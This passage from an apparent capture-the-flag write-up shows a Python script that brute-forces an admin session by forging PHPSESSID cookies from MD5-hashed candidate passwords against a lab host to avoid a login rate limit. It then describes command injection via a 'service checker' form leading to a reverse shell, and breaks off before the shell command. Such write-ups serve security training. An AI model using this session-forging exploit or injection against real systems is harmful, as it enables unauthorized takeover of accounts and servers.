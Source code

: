 That yields admin access without bruteforcing the login form (avoids rate limit).
```session.py
#!/usr/bin/env python3
#usage: python3 session.py

import hashlib
import requests
import base64
from urllib.parse import quote
from bs4 import BeautifulSoup

URL="http://10.10.181.113/administration.php"
PASSLIST="/home/kali/Forensics/pass_list.txt"
FAIL_MARKER = "Access denied, only the admin can access this page"
count=0

print(f"[+] Starting session hijack against {URL}")

with open(PASSLIST, "r") as f:
    passwords=[x.strip() for x in f.readlines()]

s=requests.Session()

try:   
    for password in passwords:
        count+=1
        md5_hash=hashlib.md5(password.encode('utf-8')).hexdigest()       # md5 hash
        text="admin:" + md5_hash                                         # session decode value
        b64=base64.b64encode(text.encode('utf-8')).decode('ascii')       # base64 encode 
        session_id=quote(b64)                                            # url encode
    
        s.cookies.set("PHPSESSID", session_id)                           # sets cookie header
        
        print(f"[{count}] Trying PHPSESSID={session_id}")
        r=s.get(URL)
        html=r.text
        if(FAIL_MARKER.lower() not in html.lower()):
            print(f"Password: {password}")
            break
except KeyboardInterrupt:
        print("\n[!] Interrupted by user.")
```

---

## ADMIN → command injection → reverse shell

Logged in as admin and found a "service checker" POST form that runs a check — vulnerable to command injection when we append `&& <cmd>`.(I tried a few CI payloads before getting a one that works)

Reverse shell example executed via the command injection:
